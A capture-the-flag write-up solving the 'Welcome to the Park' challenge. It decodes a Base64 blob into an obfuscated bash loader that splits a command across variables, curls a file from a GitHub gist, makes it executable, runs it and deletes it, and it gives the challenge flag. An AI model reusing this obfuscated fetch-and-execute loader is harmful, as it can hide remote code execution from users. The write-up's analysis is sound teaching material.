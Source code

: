 # Welcome to the Park

### Challenge Description
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/abf8542e-f3b4-42ef-9157-04f7165515b6)

### Solution
After we unzip the archive, we find some folders, I already have `ll` aliased to `ls -lah` in my bash so when I entered the `welcome` folder, I could immediately see a `.hidden` folder:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/93622001-1d48-460f-8a44-47fd293da6ed)

Within this folder there's what looks to be a binary file:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/70f8965b-aa00-4edb-bb35-1f94f8b829bf)

But simply reading it, we can see some Base64 blob:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/9a212914-856d-4d43-ad33-1ce54638b73a)

After decoding it, we see this bash script: 

```bash
A0b='tmp="$(m';A0bERheZ='ktemp /tmp/XX';A0bERheZX='XXXXXX)"';A0bER='; curl --';A0bE='retry 5 -f ';A0bERh='"https://';A0bERheZXDRi='gist.githu';xbER='b.com/s';juuQ='tuartjas';juuQQ7l7X5='h/a7d18';juuQQ7l7X5yX='7c44f4327';juuQQ7l7X5y='739b752d037be45f01';juuQQ7='" -o "${tmp}"; i';juuQQ7l7='f [[ -s "${tmp}';juuQQ7l7X='" ]];';juQQ7l7X5y=' then chm';juQQ7l='od 777 "${tmp}"; ';zRO3OUtcXt='"${tmp}"';zRO3OUt='; fi; rm';zRO3OUtcXteB=' "${tmp}"';echo -e ${A0b}${A0bERheZ}${A0bERheZX}${A0bER}${A0bE}${A0bERh}${A0bERheZXDRi}${xbER}${juuQ}${juuQQ7l7X5}${juuQQ7l7X5yX}${juuQQ7l7X5y}${juuQQ7}${juuQQ7l7}${juuQQ7l7X}${juQQ7l7X5y}${juQQ7l}${zRO3OUtcXt}${zRO3OUt}${zRO3OUtcXteB}|/bin/zsh
```
I removed the pipe at the end so that I could see echoed output:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/294b0fcc-1376-49d4-a54a-ffdd959b42b1)

It's doing a curl on a gist, saving whatever file it redirects to locally, making it executable, runs it and then deletes it. The gist it is downloading is this file:  
![image](https://gist.githubusercontent.com/stuartjash/a7d187c44f4327739b752d037be45f01/raw/4ea401db574d5cceb0ba517feb9f84971136f067/JohnHammond.jpg)

Which is John Hammond character from Jurassic Park and also the character that we all know and love for his hacker talent and great CTF writer :)

We download the "jpg" file, run strings on it and get our flag:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/09c224fb-fdce-4630-9c67-a1f35198624d)

flag{680b736565c76941a364775f06383466}
